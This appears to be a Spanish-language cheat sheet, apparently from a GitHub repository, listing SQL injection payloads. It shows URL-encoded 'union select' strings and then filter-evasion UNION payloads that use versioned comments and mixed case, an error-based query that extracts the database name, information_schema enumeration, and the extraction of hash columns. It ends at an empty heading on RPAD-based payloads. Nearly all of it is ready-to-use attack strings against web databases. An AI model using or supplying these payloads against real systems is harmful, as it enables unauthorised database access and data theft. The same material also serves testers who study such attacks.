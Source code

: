 ### HTML URL Encode (Codificación Url)

```
union select:

u	= %75
n	= %6e
i	= %69
o	= %6f
n	= %6e
space	= %20
s	= %73
e	= %65
l	= %6c
c	= %63
t	= %74

```
### Sql payloads 

```
/**8**/and/**8**/0/**8**//*!50000union*//**8**//*!50000select*//**8**/+ numero de columnas +--+

+/*!50000%55nIoN*/+/*!50000%53eLeCt*/+

SELECT * FROM (SELECT count(*), CONCAT((SELECT database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y --

+uNiOn+(/*!/**/SeleCT*/+1,22,333...)+--+

%55%6e%49%6f%4e(/*!/**/%20SeleCT%20*/%2011,22,33,44,55,66,77,88,90,1010,1111,1212,1313,1414,1515,1616,1717,1818,1919....)

+/*✓*/UnIoN/*✓*/+/*✓*/AlL/*✓*/+(SeLeCt+1,2,3,%27soy%20vulnerable%27,5,6.....)+--+

+div+@a:=(current_user/**_**/())+UNION/**/DISTINCTROW+SELECT+1,2,@a,4+--+

%75nion/**)!*/sele%63%74/**)!*/+1,2,3....

/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4,5--

+union(select+1,2,3,4,concat(column_name),6,...+from+information_schema.columns+where+table_name=%22columna%22+limit+1,1)+--+

+union(select+1,2,3,database(),concat(hash,0x3a,hash),6..+from(columna))+--+

```


## Inyecciónes sql usando funciones sql

### Sql inyection payload usando la función RPAD y SOUNDS LIKE 
